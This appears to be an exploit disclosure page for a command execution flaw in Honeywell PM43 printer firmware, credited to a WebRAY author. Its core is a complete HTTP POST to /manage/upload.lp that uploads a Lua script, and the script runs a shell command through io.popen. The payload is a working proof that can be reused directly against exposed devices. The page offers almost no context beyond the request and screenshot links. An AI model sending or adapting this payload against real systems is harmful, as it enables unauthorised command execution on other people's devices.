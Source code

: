 

#### Exploit Title

Honeywell Products upload.lp command execution

#### Exploit Author

[webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vulnerability condition

Unlimited front desk

#### Vendor Homepage

https://www.honeywell.com

#### Version

Honeywell PM43 P10.19.050004

#### Description

There is a command execution vulnerability in Honeywell Products, through which an attacker can gain server privileges。

#### Payload used

![image-20231212105543382](/Users/w0lf/Library/Application Support/typora-user-images/image-20231212105543382.png)

```
POST /manage/upload.lp HTTP/1.1
Host: xx.xx.xx.xx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_16_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrf=949644229ab94d3997700449e0c73c7b2bd3b12c51a4be94f
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypQN2i3Yr
Content-Length: 261

------WebKitFormBoundarypQN2i3Yr
Content-Disposition: form-data; name="file";filename="test222.lua"

local command = "id"
local handle = io.popen(command)
local result = handle:read("*a")
print(result)
handle:close()
------WebKitFormBoundarypQN2i3Yr--
```

![image-20231212105646654](/Users/w0lf/Library/Application Support/typora-user-images/image-20231212105646654.png)

![image-20231212105658660](/Users/w0lf/Library/Application Support/typora-user-images/image-20231212105658660.png)
